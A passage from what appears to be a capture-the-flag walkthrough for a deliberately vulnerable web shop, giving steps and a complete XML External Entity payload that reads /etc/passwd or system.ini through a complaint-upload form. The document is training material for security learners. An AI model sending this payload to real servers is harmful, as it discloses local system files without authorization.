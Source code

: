    ![XSS alert box in product details](img/xss3_product-modal_alert.png)

### :warning: Retrieve the content of C:\Windows\system.ini or /etc/passwd from the server

1. Solve the
   [Use a deprecated B2B interface that was not properly shut down](#use-a-deprecated-b2b-interface-that-was-not-properly-shut-down)
   challenge.
2. Prepare an XML file which defines and uses an external entity
   `<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>` (or `<!ENTITY xxe
   SYSTEM "file:///C:/Windows/system.ini" >]>` on Windows).
3. Upload this file through the _File Complaint_ dialog and observe the
   Javascript console while doing so. It should give you an error
   message containing the parsed XML, including the contents of the
   local system file!

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<trades>
    <metadata>
        <name>Apple Juice</name>
        <trader>
            <foo>&xxe;</foo>
            <name>B. Kimminich</name>
        </trader>
        <units>1500</units>
        <price>106</price>
        <name>Lemon Juice</name>
        <trader>
            <name>B. Kimminich</name>
        </trader>
        <units>4500</units>
        <price>195</price>
    </metadata>
</trades>
```
